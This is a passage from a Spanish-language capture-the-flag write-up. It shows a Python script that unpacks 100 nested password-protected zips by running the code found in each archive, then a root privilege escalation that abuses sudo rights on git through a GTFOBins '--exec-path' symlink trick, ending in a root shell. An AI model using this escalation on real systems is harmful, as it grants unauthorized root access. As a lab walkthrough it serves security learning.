También detectamos que la profundidad es muy larga y nos llevaría mucho tiempo hacer esto de forma manual, asi que preparamos un script en Python con ayuda de ChatGPT y modificaciones manuales para descomprimir todos los ficheros encadenados, ejecutando cada programación de cada fichero `password.txt` para obtener la contraseña y descomprimir el siguiente fichero.

```python
import pyzipper
import subprocess
import os
import sys
import shutil

def execute_script(script_path):
    # Leer el primer comentario para identificar el lenguaje
    with open(script_path, 'r', encoding='utf-8') as f:
        first_line = f.readline().strip()
        script_content = f.read()

    if 'Python' in first_line:
        # Ejecutar el script en Python
        result = subprocess.run(['python', script_path], capture_output=True, text=True)
    elif 'JavaScript' in first_line:
        # Ejecutar el script en JavaScript usando Node.js
        result = subprocess.run(['node', script_path], capture_output=True, text=True)
    elif 'Ruby' in first_line:
        # Ejecutar el script en Ruby
        result = subprocess.run(['ruby', script_path], capture_output=True, text=True)
    elif 'PHP' in first_line:
        # Ejecutar el script en PHP
        result = subprocess.run(['php', script_path], capture_output=True, text=True)
    else:
        print(f"No se reconoce el lenguaje del script en {script_path}")
        sys.exit(1)

    if result.returncode != 0:
        print(f"Error al ejecutar el script {script_path}:")
        print(result.stderr)
        sys.exit(1)

    # La contraseña es la salida del script
    password = result.stdout.strip()
    return password

def extract_zip(zip_path, password, extract_to):
    try:
        with pyzipper.AESZipFile(zip_path, 'r') as zf:
            zf.pwd = password.encode('utf-8')
            zf.extractall(path=extract_to)
    except RuntimeError as e:
        print(f"Error al extraer {zip_path}: {e}")
        sys.exit(1)
    except pyzipper.zipfile.BadZipFile as e:
        print(f"Archivo ZIP corrupto: {zip_path}")
        sys.exit(1)

def automate_extraction(initial_zip, initial_password):
    current_zip = initial_zip
    current_password = initial_password
    level = 1

    # Crear un directorio temporal para la extracción
    temp_dir = 'temp_extraction'
    if os.path.exists(temp_dir):
        shutil.rmtree(temp_dir)
    os.makedirs(temp_dir)

    while True:
        print(f"\nNivel {level}:")
        extract_to = os.path.join(temp_dir, f'level_{level}')
        os.makedirs(extract_to, exist_ok=True)

        # Extraer el archivo ZIP
        extract_zip(current_zip, current_password, extract_to)

        # Verificar si hay un archivo 'archivo.zip' dentro
        next_zip_path = os.path.join(extract_to, 'archivo.zip')
        password_txt_path = os.path.join(extract_to, 'password.txt')

        if not os.path.exists(password_txt_path):
            print("No se encontró 'password.txt'. Proceso terminado.")
            break

        if not os.path.exists(next_zip_path):
            # Último nivel alcanzado
            print(f"Último nivel alcanzado en el nivel {level}.")
            with open(password_txt_path, 'r', encoding='utf-8') as f:
                content = f.read()
            print("\nContenido del último 'password.txt':")
            print(content)
            break

        # Ejecutar el script en 'password.txt' para obtener la siguiente contraseña
        next_password = execute_script(password_txt_path)
        print(f"Contraseña obtenida: {next_password}")

        # Preparar para el siguiente nivel
        current_zip = next_zip_path
        current_password = next_password
        level += 1

    # Opcional: eliminar el directorio temporal
    shutil.rmtree(temp_dir)
    print("\nProceso completado.")

if __name__ == "__main__":
    # Solicitar la contraseña inicial al usuario
    initial_password = input("Introduce la contraseña inicial para 'archivo.zip': ").strip()
    initial_zip = 'archivo.zip'

    if not os.path.exists(initial_zip):
        print(f"No se encontró '{initial_zip}' en el directorio actual.")
        sys.exit(1)

    # Ejecutar la extracción automática
    automate_extraction(initial_zip, initial_password)
```

Instalamos las dependencias del script, en mi caso solo tuve que instalar `pyzipper` con `pip`, guardamos el script en la misma carpeta que los ficheros `archivo.zip` y `password.txt`, y lo ejecutamos.

El script nos pide la primera contraseña, pero el resto lo hace solo.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ python3 crackzip.py
Introduce la contraseña inicial para 'archivo.zip': !!//mnsvvvD_

Nivel 1:
Contraseña obtenida: d]3/9]S<#Lho

Nivel 2:
Contraseña obtenida: 5ifBA*TIu{p@

Nivel 3:
Contraseña obtenida: QWr8g_YUxB5w

Nivel 4:
Contraseña obtenida: p+Fl4|!<I}>{

Nivel 5:
Contraseña obtenida: TU$Z$v1W^poj

Nivel 6:
Contraseña obtenida: O_`+^u]aPqRb

Nivel 7:
Contraseña obtenida: GA.]Y:8^dlNO

...
...

Nivel 100:
Último nivel alcanzado en el nivel 100.

Contenido del último 'password.txt':
La última contraseña es: {[XY2P_oODN)

Proceso completado.
```

### Sudo Git

Obtenemos la contraseña de lenam `{[XY2P_oODN)`, ahora podemos ejecutar el comando sudo.

```bash
lenam@guitjapeo:~/.local/bin/web$ sudo -l 
[sudo] password for lenam: 
Matching Defaults entries for lenam on guitjapeo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User lenam may run the following commands on guitjapeo:
    (root) /usr/bin/git
```

Vemos que podemos ejecutar el comando `git` (como no podía ser de otra forma) como el usuario root.



En GTFOBins encontramos este binario donde nos muestra algunas formas de poder utilizarlo para elevar privilegios, algunas utilizan el manual o ayuda con `less` no funcionará porque no están instalados los manuales de git.

La opción (e) nos funciona correctamente.

```bash
TF=$(mktemp -d)
ln -s /bin/sh "$TF/git-x"
sudo git "--exec-path=$TF" x
```

Lo ejecutamos y obtenemos shell con root.

```bash
lenam@guitjapeo:~/.local/bin/web$ TF=$(mktemp -d)
lenam@guitjapeo:~/.local/bin/web$ ln -s /bin/sh "$TF/git-x"
lenam@guitjapeo:~/.local/bin/web$ sudo git "--exec-path=$TF" x
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
f6aXXXXXXXXXXXXXXXXXXXXXXbb
```
